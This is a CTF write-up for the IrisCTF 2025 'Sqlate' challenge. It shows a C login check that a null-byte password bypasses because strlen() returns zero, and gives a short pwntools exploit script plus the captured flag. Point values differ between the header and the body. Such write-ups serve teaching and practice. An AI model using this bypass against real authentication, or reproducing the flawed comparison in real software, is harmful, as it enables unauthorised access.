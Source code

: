 ```yaml
---
title: "Sqlate Write-up"
date: "2025-01-12"
ctf: "IrisCTF 2025"
category: "pwn"
difficulty: "Medium"
points: 100
tags: ['pwn']
author: "Tham Le"
solved: true
---
```





# Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`
